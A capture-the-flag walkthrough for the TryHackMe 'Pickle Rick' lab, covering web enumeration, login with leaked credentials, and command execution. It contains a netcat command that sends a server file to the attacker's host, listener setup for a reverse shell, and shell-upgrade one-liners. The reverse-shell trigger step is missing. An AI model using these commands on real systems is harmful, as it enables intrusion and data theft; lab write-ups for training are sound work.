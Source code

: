 # Pickle Rick - TryHackMe Writeup

**Categories**: Web, Easy  
**Tags**: web, easy, nmap, dirsearch, netcat  
**Image**: images/Pickle Rick/Pickle Rick.png

This guide walks through solving the *Pickle Rick* TryHackMe challenge, a beginner-friendly CTF focused on web enumeration and shell techniques. Since TryHackMe machines use dynamic IPs, replace `<targetIP>` with the target machine's IP and `<yourIP>` with your attacking machine's IP.

## Step 1: Initial Reconnaissance with Nmap
Scan the target to identify open ports and services:  
```
nmap -Pn -sC -sV --min-rate=10000 <targetIP>
```

**Output**:  
- **Port 22 (SSH)**: Open, indicating potential SSH access.  
- **Port 80 (HTTP)**: Open, hosting a web server.

Visiting `http://<targetIP>` reveals a webpage with a challenge to find three "ingredients" (flags).

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_3.png)

## Step 2: Web Enumeration
Check the webpage's source code for clues, revealing a username: `R1ckRul3s`.  

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_4.png)

Run a directory scan using *dirsearch*:  
```
dirsearch -u http://<targetIP>
```

**Findings**:  
- `/robots.txt`: Contains `Wubbalubbadubdub`.  
- `/login.php`: A login page.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_5.png)

## Step 3: Gaining Access
Log in using:  
- **Username**: `R1ckRul3s`  
- **Password**: `Wubbalubbadubdub`

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_6.png)

Upon login a **Command Panel** allows command execution on the server.

## Step 4: Finding the First Ingredient
In the Command Panel, list files in `/var/www/html`. A file `Sup3rS3cretPickl3Ingred.txt` is present. Since `cat` is disabled, access it via the browser:  
```
http://<targetIP>/Sup3rS3cretPickl3Ingred.txt
```

This yields the **first ingredient**.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_7.png)

## Step 5: Finding the Second Ingredient
Enumerate `/home/rick` via the Command Panel, finding `second ingredients`. Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003 > file.txt
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_8.png)

In the Command Panel, send the file:  
```
/bin/sh | nc <yourIP> 9003 < /home/rick/'second ingredients'
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_9.png)

Read `file.txt` to obtain the **second ingredient**.

## Step 6: Escalating Privileges and Finding the Third Ingredient
Check *sudo* privileges in the Command Panel:  
```
sudo -l
```

**Output**: The user can run any command with *sudo* without a password.

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_10.png)

Set up a *netcat* listener on your machine:  
```
nc -vnlp 9003
```

![Pickle-Rick](../Images/Pickle%20Rick/thm_pickle-rick_11.png)

Once connected, spawn an interactive shell:  
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
or
bash -i
```

## Step 7: Locating the Third Ingredient

Alternatively, use *sudo* to read the file in `/root`:  
```
sudo cat /root/3rd.txt
```

## Summary
- **First Ingredient**: Found in `Sup3rS3cretPickl3Ingred.txt` via the browser.  
- **Second Ingredient**: Transferred from `/home/rick/'second ingredients'` using *netcat*.  
- **Third Ingredient**: Retrieved from  `/root/3rd.txt` via a reverse shell with *sudo* privileges.

This streamlined approach uses basic enumeration, web exploitation, and reverse shell techniques to efficiently complete the challenge.